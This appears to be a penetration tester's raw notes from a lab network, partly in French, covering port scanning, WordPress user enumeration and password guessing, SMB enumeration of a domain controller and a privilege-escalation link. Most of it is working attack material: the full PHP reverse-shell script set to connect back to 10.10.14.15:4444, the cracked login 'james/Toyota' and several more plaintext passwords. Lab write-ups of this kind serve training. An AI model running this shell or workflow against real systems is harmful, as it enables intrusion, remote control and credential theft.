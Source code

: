 PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 62 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
65000/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))

first Machine : 10.10.110.100


http://10.10.110.100:65000/wordpress/
 Enumeration de wordpress 
 wpscan --url http://10.10.110.100:65000/wordpress/ --enumerate


 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] james
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

cewl http://10.10.110.100:65000/wordpress/index.php/languages-and-frameworks > words.txt

[!] Valid Combinations Found:
 | Username: james, Password: Toyota
 https://www.hackingarticles.in/wordpress-reverse-shell/
```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.15';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Reverse shell 

https://github.com/ly4k/PwnKit

proxychains crackmapexec smb 172.16.1.20 --users 

SMB         172.16.1.20     445    DANTE-DC01       [*] Windows Server 2012 R2 Standard 9600 x64 (name:DANTE-DC01) (domain:DANTE.local) (signing:True) (SMBv1:True)

SMB         172.16.1.20     445    DANTE-DC01       [-] Error enumerating domain users using dc ip 172.16.1.20: NTLM needs domain\username and a password
SMB         172.16.1.20     445    DANTE-DC01       [*] Trying with SAMRPC protocol

1. 172.16.1.10 SlackMigration lisible
2. 172.16.1.17 forensics Lire et écrire
TheJoker12345!
admin/Password6543
Welcome1!2@3#